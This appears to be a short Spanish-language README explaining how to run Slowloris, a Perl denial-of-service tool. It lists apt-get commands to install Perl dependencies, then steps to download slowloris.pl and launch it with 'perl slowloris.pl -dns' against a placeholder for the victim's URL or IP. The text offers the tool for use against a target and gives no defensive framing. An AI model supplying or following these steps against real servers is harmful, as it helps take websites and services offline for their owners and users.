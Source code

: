 Como usar Slowloris

Recursos necesarios:
# sudo apt-get update  
# sudo apt-get install perl
# sudo apt-get install libwww-mechanize-shell-perl
# sudo apt-get install perl-mechanize

1)Descargar slowloris.pl
2)Abrir una terminal
3)# cd /thePathToYourSlowloris.plFile
4)# ./slowloris.pl
5)# perl slowloris.pl -dns (Victim URL or IP) -paramentros u opciones

